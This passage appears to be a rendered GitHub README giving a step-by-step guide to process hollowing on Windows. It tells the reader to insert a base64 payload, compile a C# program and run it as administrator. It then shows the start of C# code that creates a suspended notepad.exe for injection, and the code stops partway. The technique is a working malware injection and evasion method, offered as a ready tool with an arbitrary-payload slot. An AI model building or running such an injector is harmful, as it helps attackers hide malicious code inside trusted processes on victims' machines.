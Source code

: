 ## Step 2: Replace the placeholder in the C# code:

Replace:

```
byte[] payload = Convert.FromBase64String("BASE64_ENCODED_PAYLOAD_HERE");
```

With:

```
byte[] payload = Convert.FromBase64String("encoded_payload_from_step_1");
```

## Step 3: Compile the code:

- Save the C# code in `Program.cs`.
- Open a terminal or command prompt.
- Navigate to the directory containing `Program.cs`.
- Compile the code using:

```
dotnet build -c Release
```

## Step 4: Run the executable:

- Open Command Prompt with administrator rights.
- Navigate to the directory containing the compiled executable.
- Run the executable:

```
ProcessHollowing.exe
```

This should execute the payload (in this example, a PowerShell script showing a message box) within the context of the hollowed process (e.g., `notepad.exe`).

---
# Example Code
Here's a conceptual example in C# using the CreateProcess, NtUnmapViewOfSection, VirtualAllocEx, WriteProcessMemory, and SetThreadContext functions from the Windows API:

```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

class Program
{
    static void Main(string[] args)
    {
        // Load the payload into a byte array
        byte[] payload = Convert.FromBase64String("BASE64_ENCODED_PAYLOAD_HERE");

        // Prepare the STARTUPINFO and PROCESS_INFORMATION structures
        STARTUPINFO si = new STARTUPINFO();
        PROCESS_INFORMATION pi = new PROCESS_INFORMATION();

        // Create a suspended process (e.g., notepad.exe)
        bool success = CreateProcess(null, "C:\\Windows\\System32\\notepad.exe", IntPtr.Zero, IntPtr.Zero, false, ProcessCreationFlags.CREATE_SUSPENDED, IntPtr.Zero, null, ref si, out pi);
        if (!success)
        {
            Console.WriteLine("Failed to create process");
            return;
```